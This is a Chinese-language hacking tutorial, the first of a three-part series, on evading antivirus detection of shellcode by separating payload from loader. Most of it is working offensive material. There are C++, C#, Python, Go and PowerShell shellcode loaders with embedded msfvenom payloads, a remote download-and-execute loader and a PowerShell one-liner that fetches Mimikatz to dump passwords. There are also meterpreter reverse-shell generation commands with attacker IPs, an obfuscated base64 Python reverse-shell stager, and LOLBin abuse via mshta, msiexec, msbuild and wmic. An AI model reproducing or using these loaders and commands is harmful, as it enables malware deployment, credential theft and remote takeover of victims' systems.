

干货 | Shellcode免杀总结<一>
自己还是想把一些shellcode免杀的技巧通过白话文、傻瓜式的文章把技巧讲清楚。希望更多和我一样web狗也能动手做到免杀的实现。
文中我将shellcode免杀技巧分为 "分离“、”混淆“两个大类，通过不同技巧针对不同检测方式，也就是常听到的特征检测、行为检测、云查杀。
个人能力有限，文中出现错误还请*斧正、轻喷。
0x01 那些shellcode"分离"免杀
首先来看看关于shellcode常用得C/C++加载方式
常见方式比如
函数指针执行、内联汇编指令、伪指令
等方式。
但是这种shellcode明显 和执行程序在一起很容易被查杀
所以大多数分离免杀的思想就是把执行shellcode和加载程序分开。
来看看常见的分离加载 拿C++举例
正常使用像 VirtualAlloc 内存操作的函数执行shellcode :
#include "stdafx.h"#include "windows.h"using namespace std;int main(int argc, char **argv){unsigned char buf[] ="\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30""\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff""\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52""\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1""\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b""\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03""\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b""\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24""\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb""\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f""\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5""\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a""\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);memcpy(exec, buf, sizeof buf);((void(*)())exec)();return 0;}
如果要把shellcode单独分离 我们可以通过其他当时获取到shellcode，而不是事先讲shellcode写死在程序中
举例：shellcode从文本提取或从远程下载获取。
这里就把shellcode通过http请求(使用winhttp api)获取赋值到内存缓存数组，动态分配内存执行shellcode:
#include "stdafx.h"#include <string>#include <iostream>#include <windows.h>#include <winhttp.h>#pragma comment(lib,"winhttp.lib")#pragma comment(lib,"user32.lib")using namespace std;void main(){DWORD dwSize = 0;DWORD dwDownloaded = 0;LPSTR pszOutBuffer = NULL;HINTERNET hSession = NULL,hConnect = NULL,hRequest = NULL;BOOL bResults = FALSE;hSession = WinHttpOpen(L"User-Agent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);if (hSession){hConnect = WinHttpConnect(hSession, L"127.0.0.1", INTERNET_DEFAULT_HTTP_PORT, 0);}if (hConnect){hRequest = WinHttpOpenRequest(hConnect, L"POST", L"qing.txt", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);}LPCWSTR header = L"Content-type: application/x-www-form-urlencoded/r/n";SIZE_T len = lstrlenW(header);WinHttpAddRequestHeaders(hRequest, header, DWORD(len), WINHTTP_ADDREQ_FLAG_ADD);if (hRequest){std::string data = "name=host&sign=xx11sad";const void *ss = (const char *)data.c_str();bResults = WinHttpSendRequest(hRequest, 0, 0, const_cast<void *>(ss), data.length(), data.length(), 0);////bResults=WinHttpSendRequest(hRequest,WINHTTP_NO_ADDITIONAL_HEADERS, 0,WINHTTP_NO_REQUEST_DATA, 0, 0, 0 );}if (bResults){bResults = WinHttpReceiveResponse(hRequest, NULL);}if (bResults){do{// Check for available data.dwSize = 0;if (!WinHttpQueryDataAvailable(hRequest, &dwSize)){printf("Error %u in WinHttpQueryDataAvailable.\n", GetLastError());break;}if (!dwSize)break;pszOutBuffer = new char[dwSize + 1];if (!pszOutBuffer){printf("Out of memory\n");break;}ZeroMemory(pszOutBuffer, dwSize + 1);if (!WinHttpReadData(hRequest, (LPVOID)pszOutBuffer, dwSize, &dwDownloaded)){printf("Error %u in WinHttpReadData.\n", GetLastError());}else{printf("ok");}//char ShellCode[1024];int code_length = strlen(pszOutBuffer);char* ShellCode = (char*)calloc(code_length /2 , sizeof(unsigned char));for (size_t count = 0; count < code_length / 2; count++){sscanf(pszOutBuffer, "%2hhx", &ShellCode[count]);pszOutBuffer += 2;}printf("%s", ShellCode);//strcpy(ShellCode,pszOutBuffer);void *exec = VirtualAlloc(0, sizeof ShellCode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);memcpy(exec, ShellCode, sizeof ShellCode);((void(*)())exec)();delete[] pszOutBuffer;if (!dwDownloaded)break;} while (dwSize > 0);}if (hRequest) WinHttpCloseHandle(hRequest);if (hConnect) WinHttpCloseHandle(hConnect);if (hSession) WinHttpCloseHandle(hSession);system("pause");}
看下查杀情况: 去除shellcode后火绒已经不杀了
类似这种远程读取中还有很多 ，类如powershell内存加载，相信各位也没少用过
举例:powershell远程加载mimikatz读取密码
powershell IEX (New-Object Net.WebClient).DownloadString('[url]https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'[/url]); Invoke-Mimikatz >>c:\1.txt
类似的还有很多，不过这种用得很多内存加载有些杀软还是拦的，怎么解决我们文后面再说。
其实到这里，用的最多的语言加载器的原理不用说也知道了，这里还是解释下加载器，引用我同事对加载器的解释:
shellcode就好比一杯水，加载器就是装水的杯子，水倒进了杯子才可以喝，shellcode被加载器装载后才可以执行。
A)那些加载器执行shellcode:
ssi:
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.174.142 LPORT=4444 -f c > msf.txtNo encoder or badchars specified, outputting raw payloadPayload size: 341 bytesFinal size of c file: 1457 bytescat msf.txt|grep -v unsigned|sed "s/\"\\\x//g"|sed "s/\\\x//g"|sed "s/\"//g"|sed ':a;N;$!ba;s/\n//g'|sed "s/;//g"fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c77260789e8ffd0b89001000029c454506829806b00ffd56a0a68c0a8ae84680200115c89e6505050504050405068ea0fdfe0ffd5976a1056576899a57461ffd585c0740aff4e0875ece8670000006a006a0456576802d9c85fffd583f8007e368b366a406800100000566a006858a453e5ffd593536a005653576802d9c85fffd583f8007d285868004000006a0050680b2f0f30ffd55768756e4d61ffd55e5eff0c240f8570ffffffe99bffffff01c329c675c1c3bbf0b5a2566a0053ffd5
shellcode_launcher:
c#加载:
using System;using System.Runtime.InteropServices;namespace TCPMeterpreterProcess{class Program{static void Main(string[] args){// native function’s compiled code// generated with metasploitbyte[] shellcode = new byte[333] {};UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,MEM_COMMIT, PAGE_EXECUTE_READWRITE);Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);IntPtr hThread = IntPtr.Zero;UInt32 threadId = 0;// prepare dataIntPtr pinfo = IntPtr.Zero;// execute native codehThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);WaitForSingleObject(hThread, 0xFFFFFFFF);}private static UInt32 MEM_COMMIT = 0x1000;private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;[DllImport("kernel32")]private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect);[DllImport("kernel32")]private static extern bool VirtualFree(IntPtr lpAddress,UInt32 dwSize, UInt32 dwFreeType);[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 lpThreadAttributes,UInt32 dwStackSize,UInt32 lpStartAddress,IntPtr param,UInt32 dwCreationFlags,ref UInt32 lpThreadId);[DllImport("kernel32")]private static extern bool CloseHandle(IntPtr handle);[DllImport("kernel32")]private static extern UInt32 WaitForSingleObject(IntPtr hHandle,UInt32 dwMilliseconds);[DllImport("kernel32")]private static extern IntPtr GetModuleHandle(string moduleName);[DllImport("kernel32")]private static extern UInt32 GetProcAddress(IntPtr hModule,string procName);[DllImport("kernel32")]private static extern UInt32 LoadLibrary(string lpFileName);[DllImport("kernel32")]private static extern UInt32 GetLastError();}}
py加载：
import base64,sys;import ctypeswhnd = ctypes.windll.kernel32.GetConsoleWindow()if whnd != 0:ctypes.windll.user32.ShowWindow(whnd, 0)ctypes.windll.kernel32.CloseHandle(whnd)exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMS4zMCcsODg4OCkpCgkJYnJlYWsKCWV4Y2VwdDoKCQl0aW1lLnNsZWVwKDUpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoZCx7J3MnOnN9KQo=')))
go内联c加载：
package mainimport "C"import "unsafe"func main() {buf := ""buf += "xddxc6xd9x74x24xf4x5fx33xc9xb8xb3x5ex2c"...省略...buf += "xc9xb1x97x31x47x1ax03x47x1ax83xc7x04xe2"// at your call site, you can send the shellcode directly to the C// function by converting it to a pointer of the correct type.shellcode := []byte(buf)C.call((*C.char)(unsafe.Pointer(&shellcode[0])))}
资源加载：
CPLResourceRunner:
cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 > b64shellcode.txt用Cobalt Strike 生成shellcode
Attacks -> Packages -> Windows Executable (s) -> Output => RAW (x86)
py -2 ConvertShellcode.py beacon.binShellcode written to shellcode.txt0x4d,0x5a,0x41,0x52,0x55,0x48,0x89,0xe5,0x48,0x81,0xec,0x20,0x00,0x00,0x00,0x48,0x8d,0x1d,0xea,0xff,0xff,0xff,0x48,0x89,0xdf,0x48,0x81,0xc3,0x7c,0x79,0x01,0x00,0xff,0xd3,0x41,0xb8,0xf0,0xb5,0xa2,0x56,0x68,0x04,0x00,0x00,0x00,0x5a,0x48,0x89,0xf9,0xff,0xd0,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0xf8,0x00,0x00,0x00,0x0e,0x1f,0xba,0x0e,0x00,0xb4,0x09,0xcd,0x21,0xb8,0x01,0x4c,0xcd,0x21,0x54,0x68,0x69,0x73,0x20,0x70,0x72,0x6f,0x67,0x72,0x61,0x6d,0x20,0x63,0x61,0x6e,0x6e,0x6f,0x74,0x20,0x62,0x65,0x20,0x72,0x75,0x6e,0x20,0x69,0x6e,0x20,0x44,0x4f,0x53,0x20,0x6d,0x6f,0x64,0x65,0x2e,0x0d,0x0a,0x24,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0xc9,0xdb,0x6e,0xe9,0x8d,0xba,0x00,0xba,0x8d,0xba,0x00,0xba,0x8d,0xba,0x00,0xba,0xeb,0x54,0xd2,0xba,0x15,0xba,0x00,0xba,0x13cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d 'n' |xxd -p -r |gzip -c |base64 > b64shellcode.txtH4sIAPGjM14AA/ONcgwK9eh86tH4RoGBgcGjV/bV////PTrvezQerqlkZPh/2XHHh62LwjJYgLJRHp0//19ggIEfQMwnv4uPYQvnWcUdjD5nFUMyMosVCory04sScxWSE/Py8ksUklIVikrzFDLzFFz8gxVy81NS9Xi5VKBGnLyd97J3F8MuGH4dcmmXKJAWBgD9vO6hmAAAAA==Compile to x86 and copy CPLResourceRunner.dll to RunMe.cpl
powershell加载(MMFml):
namespace mmfExeTwo{using System;using System.IO.MemoryMappedFiles;using System.Runtime.InteropServices;class Program{private delegate IntPtr NewDelegate();// To handle the location by applying the appropriate type// We had to create a delegate to handle the the pointer to the location where we shim in the shellcode// into the Memory Mapped File. This allows the location of the opp code to be referenced later for executionprivate unsafe static IntPtr GetShellMemAddr(){// 64bit shell code. Tested on a win10 system. Injects "cmd -k calc"// was generated vanilla using "msfvenom -p windows/exec CMD="cmd /k calc" EXITFUNC=thread C -f powershell"var shellcode = new byte[]{0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x00};MemoryMappedFile mmf = null;MemoryMappedViewAccessor viewaccessor = null;try{/* The try block creates the MMF and assigns the RWE permissionsThe view accessor is created with matching permissionsthe shell code from GetShellMemAddr is written to MMFthen the pointer is gained and a delegate is created to handle pointer valueso that it can be passed in therms of the returned function */mmf = MemoryMappedFile.CreateNew("__shellcode", shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);viewaccessor = mmf.CreateViewAccessor(0, shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);viewaccessor.WriteArray(0, shellcode, 0, shellcode.Length);var pointer = (byte*)0;viewaccessor.SafeMemoryMappedViewHandle.AcquirePointer(ref pointer);var func = (NewDelegate)Marshal.GetDelegateForFunctionPointer(new IntPtr(pointer), typeof(NewDelegate));return func();}catch{return IntPtr.Zero;}finally // You should always clean up after yourself :){viewaccessor.Dispose();mmf.Dispose();}}static void Main(string[] args){GetShellMemAddr();}}}
msfvenom -p windows/x64/exec CMD="cmd.exe -c calc.exe" -f csharpInvoke-MMFml
加载器就到这里吧，加载器的实现有能力可以自己造轮子，免杀效果非常不错的。
B)Lolbins白利用加载shellcode
除了加载器这种"杯子和水"的分离的思想，个人认为还具有"分离"免杀思想的就是Lolbins，也就是白名单。
下面例举一些白利用，这种分离多半是因为杀行为特征，比如你这个程序运行上下文不应该访问某个api，这种就会被捕获，而白利用就是绕过这种行为捕获，而这种白利用中有的shellcode或执行文件还是会落地被查杀，这个文后部分会提到，先来看白利用。
LOLBins，全称“Living-Off-the-Land Binaries”，直白翻译为“生活在陆地上的二进制“，这个概念最初在2013年DerbyCon黑客大会由Christopher Campbell和Matt Graeber进行创造，最终Philip Goh提出了LOLBins这个概念。说白了就是白利用 ，举个例子
DarkHydrus APT样本
MD5：B108412F1CDC0602D82D3E6B318DC634
使用到的启动命令：cscript.exe “C:\Users\Public\Documents\ OfficeUpdateService.vbs”
这里就用了cscript加载vbs 添加开机启动项，启动脚本。
mshta：
payload:msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.174.134 LPORT=53 -f raw > shellcode.bincat shellcode.bin |base64 -w 0mshta.exe [url]http://192.168.174.134[/url] /qing.hta
替换模板:
https://raw.githubusercontent.com/mdsecactivebreach/CACTUSTORCH/master/CACTUSTORCH.hta
shellcode替换位置:

Msiexec:
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.174.134 LPORT=4444 - f msi > qing.txtC:\Windows\System32\msiexec.exe /q /i [url]http://192.168.174.134[/url] /qing.txt
加载dll:
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.174.134 LPORT=53 - f dll > qing.dllmsiexec /y C:\qing.dll
Msbuild：
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe qing.xml
模板用三好师傅的：https://github.com/3gstudent/msbuild-inline-task

Installutil
编译:C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:qing.exe /keyfile:C:\Users\John\Desktop\installutil.snk /unsafe C:\Users\John\Desktop\installutil.cs执行:C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U qing.exe详细:[url]https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/[/url]
wmic:
wmic os get /FORMAT:"http://example.com/evil.xsl"模板:https://raw.githubusercontent.com/kmkz/Sources/master/wmic-poc.xsl
csc:
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.174.132 LPORT=53 ‐ f csharpC:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:D:\test\InstallUtil-shell.exe D:\test\InstallUtil-ShellCode.cs
通过Installutil执行即可
白利用就不列举更多了，其他一些白利用也是一个道理，那么问题来了，前面说的白利用执行某些时候我们的shellcode生成的exe或者dll还是会落地，
虽然前面说的内存加载可以解决这个问题，那假设必须落地，怎么逃过各种检测呢？
这就是我归为免杀的第二个方式大类，混淆免杀。

由于文章篇幅较长我们拆分成了三篇文章
感兴趣的请依次阅读
原创投稿作者：卿
作者博客：https://www.cnblogs.com/-qing-/
本文由公众号HACK学习排版编辑整理